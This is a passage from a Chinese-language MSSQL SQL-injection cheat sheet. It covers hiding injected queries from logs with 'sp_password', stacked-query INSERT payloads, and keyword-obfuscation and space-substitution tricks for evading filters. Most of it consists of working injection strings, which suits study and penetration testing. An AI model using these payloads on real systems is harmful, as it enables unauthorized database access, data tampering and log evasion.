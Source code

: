 ' AND 1=1--sp_password

输出：

```
-- 'sp_password的'在该事件文本中被发现。('sp_password' was found in the text of this event.)
-- 出于安全原因,该文本已被替换成注释。( The text has been replaced with this comment for security reasons.)

```

*   这个方法不理解,望小伙伴们解答.

### 层叠查询

（ MSSQL支持 层叠查询）

示例：

```
' AND 1=0 INSERT INTO ([column1], [column2]) VALUES ('value1', 'value2');

```

### 模糊测试和混淆

允许中间字符

以下字符可以作为空格符。

![enter image description here](http://drops.javaweb.org/uploads/images/8fa01aade58721e9a78b9e76d838849b147e8188.jpg)

#### 示例：

```
S%E%L%E%C%T%01column%02FROM%03table;
A%%ND 1=%%%%%%%%1;

```

附： 关键词之间的百分比符号只在ASP(X)的Web应用程序中有效。

下面的字符也可用来避免空格。

```
22    "
28   （
29    ）
5B    [
5D    ]

```

#### 示例：

```
UNION(SELECT(column)FROM(table));
SELECT"table_name"FROM[information_schema].[tables];

```
